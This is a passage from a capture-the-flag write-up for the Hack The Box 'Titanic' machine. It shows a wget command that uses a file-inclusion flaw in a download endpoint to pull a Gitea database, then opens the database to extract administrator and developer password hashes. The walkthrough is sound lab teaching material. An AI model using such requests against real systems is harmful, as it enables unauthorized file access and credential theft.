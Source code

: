 ![](images/2025-02-15_20-46_80_lfi_sqlite.png)

## Foothold

### Investigate sqlite3 Database

We downloaded the `DB` to parse it properly.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Titanic/files]
└─$ wget 'http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db' -O gitea.db
--2025-02-15 20:47:50--  http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db
Resolving titanic.htb (titanic.htb)... 10.129.113.41
Connecting to titanic.htb (titanic.htb)|10.129.113.41|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2084864 (2.0M) [application/octet-stream]
Saving to: ‘gitea.db’

gitea.db                                                   100%[========================================================================================================================================>]   1.99M   245KB/s    in 7.1s    

2025-02-15 20:47:57 (286 KB/s) - ‘gitea.db’ saved [2084864/2084864]
```

Since the `DB` had some size we decided to make our lives easier and opened it using `sqlitebrowser` to grab the `hashes` for `administrator` and `developer`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Titanic/files]
└─$ sqlitebrowser gitea.db
```
